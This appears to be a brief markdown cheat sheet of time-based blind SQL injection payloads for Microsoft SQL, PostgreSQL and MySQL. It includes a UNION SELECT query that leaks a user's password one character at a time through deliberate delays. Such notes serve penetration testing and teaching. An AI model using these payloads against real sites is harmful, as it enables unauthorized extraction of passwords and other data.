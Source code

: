# Blind SQL Injection Tests

## Microsoft SQL
```sh
http://site.com?id=1' waitfor delay '00:00:10'--
```

## PostgreSQL
```sql
pg_sleep()
```

MySQL
```sql
SELECT IF (expression, true, false)

BENCHMARK(5000000,ENCODE('MSG','by 5 seconds'))
```

THe following query will hang if the first character of the users password is `2`. 
```sql
1 UNION SELECT IF(SUBSTRING(password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG', 'by 5 seconds')), null FROM users WHERE user_id = 1;
```
